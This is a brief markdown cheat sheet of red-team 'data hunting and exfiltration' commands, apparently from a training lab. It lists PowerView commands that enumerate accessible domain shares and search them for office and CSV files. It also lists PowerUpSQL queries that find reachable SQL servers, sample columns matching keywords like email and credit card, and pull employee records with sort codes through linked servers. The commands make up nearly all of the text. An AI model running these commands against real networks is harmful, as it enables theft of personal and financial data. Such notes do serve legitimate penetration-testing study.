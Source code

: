 # Data Hunting and Exfiltration Notes

## File Shares

enumeration shares
```
powershell Find-DomainShare -CheckShareAccess
```

interesting files search
```
powershell Find-InterestingDomainShareFile -Include *.doc*, *.xls*, *.csv, *.ppt*
```

## Databases

Powerupsql can search for interesting stuff and extraction
```
powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "email,address,credit,card" -SampleSize 5 | select instance, database, column, sample | ft -autosize
```

to search over links
```
powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select * from information_schema.tables')"
```

list an employees table columns
```
powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select column_name from master.information_schema.columns where table_name=''employees''')"
```

take a data sample with the columns identified
```
powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select top 5 first_name,gender,sort_code from master.dbo.employees')"

```
